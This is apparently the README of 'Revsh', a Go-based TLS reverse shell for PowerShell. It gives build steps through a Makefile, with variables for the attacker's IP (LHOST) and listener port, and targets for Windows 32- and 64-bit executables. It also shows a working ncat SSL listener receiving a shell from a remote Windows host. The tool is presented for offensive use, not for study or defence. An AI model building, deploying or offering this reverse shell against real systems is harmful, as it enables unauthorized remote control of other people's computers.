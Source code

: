 # Revsh

Simple TCP reverse shell for powershell written in [Go](https://golang.org).

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.125.
Ncat: Connection from 10.10.10.125:49954.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> 

```

